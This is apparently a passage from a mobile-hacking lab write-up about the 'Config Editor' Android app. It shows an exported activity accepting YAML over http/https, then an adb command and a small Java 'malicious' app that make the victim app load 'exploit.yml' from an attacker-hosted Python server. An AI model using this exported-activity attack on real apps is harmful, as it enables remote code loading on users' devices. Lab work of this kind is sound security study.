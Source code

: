 ```XML
        <data android:scheme="file"/>
        <data android:scheme="http"/>
        <data android:scheme="https"/>
        <data android:mimeType="application/yaml"/>
    </intent-filter>
</activity>
```

We can craft an *"malicious"* app that **send the `.yml`** file for be *processed* by **Config Editor** app through the **file** scheme and via **http/https**.

So, in our machine, host with a **python server** the `exmploit.yml` file.
```bash
python3 -m http.server 8081
```
Then send through **ADB** for test
```bash
adb shell am start -n com.mobilehackinglab.configeditor/.MainActivity -a android.intent.action.VIEW -d "http://192.168.18.44:8081/exploit.yml"
```

And yes, this work!
![[configEditor5.png]]

Taking advantage of the fact that the **activity is exported**, we can create a simple app that sends an intent.
```java
package com.lautaro.exploiteditor;

import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;
import androidx.appcompat.app.AppCompatActivity;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);

        // Create intent
        Intent intent = new Intent(Intent.ACTION_VIEW);
        intent.setData(Uri.parse("http://192.168.18.44:8081/exploit.yml"));
        intent.setClassName("com.mobilehackinglab.configeditor", "com.mobilehackinglab.configeditor.MainActivity");

        // Launch intent
        startActivity(intent);

        // Finish malicious app
        finish();
    }
}
```
